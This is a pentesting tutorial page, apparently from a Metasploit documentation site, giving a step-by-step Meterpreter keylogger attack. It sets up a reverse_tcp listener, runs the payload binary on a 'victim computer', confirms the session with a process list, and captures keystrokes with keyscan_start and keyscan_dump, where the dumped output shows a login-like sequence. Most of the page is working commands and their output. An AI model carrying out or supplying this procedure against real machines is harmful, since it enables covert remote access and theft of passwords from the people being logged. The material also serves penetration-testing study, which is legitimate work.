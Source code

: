 ```yaml
---
title: Keylogger
layout: default
parent: Metasploit
grand_parent: Pentesting
nav_order: 4
---
```


# Meterpreter Keylogger

## Introduction

Gaining access to credentials is a vital phase in penetration testing, and Meterpreter offers numerous functionalities facilitating attackers in extracting sensitive information. One notable capability is its integrated keylogger, which captures and records keystrokes.

## Step-by-Step Guide

### 1. Create the meterpreter binary

How-To: [Creating a Meterpreter Binary](../meterpreter_binary_creation/how-to.html)

### 2. Create and run a listener

```bash
msf6 > use exploit/multi/handler
msf6 exploit(multi/handler) > set payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST <IP>
msf6 exploit(multi/handler) > set LPORT <PORT>
msf6 exploit(multi/handler) > exploit
```

### 3. Execute your meterpreter binary on the victim computer


### 4. Confirm connection

Sample (run *'ps'*): 
```bash
msf6 exploit(multi/handler) > exploit

[*] Started reverse TCP handler on 172.28.99.163:9999
[*] Sending stage (175686 bytes) to 172.28.96.1
[*] Meterpreter session 1 opened (172.28.99.163:9999 -> 172.28.96.1:11322) at 2024-01-24 11:14:18 +1100

meterpreter > ps

Process List
============

 PID   PPID  Name         Arch  Session  User                Path
 ---   ----  ----         ----  -------  ----                ----
 0     0     [System Pro
             cess]
 4     0     System
 224   4     smss.exe
 296   288   csrss.exe
 308   432   svchost.exe
 344   288   wininit.exe
 356   336   csrss.exe
 396   336   winlogon.exe
 432   344   services.exe
 440   344   lsass.exe
 ...
```

### 5. Run keylogger module
```bash
meterpreter > keyscan_start
Starting the keystroke sniffer ...
```

### 5. Dump the captured keystrokes
```bash
meterpreter > keyscan_dump
Dumping captured keystrokes...
win7<Tab>12345<Tab>12345
```

## Video Demonstration

[<img src="https://img.youtube.com/vi/GQvBA2jnKS8/hqdefault.jpg"
/>](https://www.youtube.com/embed/GQvBA2jnKS8)

## Reference
https://www.offsec.com/metasploit-unleashed/keylogging/#using-a-keylogger-with-metasploit